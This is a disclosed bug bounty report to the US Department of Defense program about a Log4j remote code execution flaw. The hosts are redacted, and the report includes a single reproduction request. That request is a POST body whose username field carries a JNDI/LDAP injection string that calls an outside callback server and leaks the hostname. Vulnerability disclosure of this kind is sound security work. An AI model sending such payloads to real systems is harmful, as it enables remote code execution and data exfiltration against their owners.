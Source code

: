 # ██████_log4j - https://██████

## Report Details
- **Report ID**: 1631364
- **URL**: https://hackerone.com/reports/1631364
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-08T13:59:08.921Z
- **Disclosed**: 2022-09-06T19:07:13.913Z

## Reporter
- **Username**: hachimanxienim
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi security team, i found a log4j vulnerability in your aplication

## Impact

Logging untrusted or user controlled data with a vulnerable version of Log4J may result in Remote Code Execution (RCE) against your application. This includes untrusted data included in logged errors such as exception traces, authentication failures, and other unexpected vectors of user controlled input.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Send POST request to this endpoint --->  https://██████/mifs/j_spring_security_check


the post request: 

j_username=${jndi:ldap://${hostName}.youinteractsserver}&j_password=password&logincontext=employee

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments

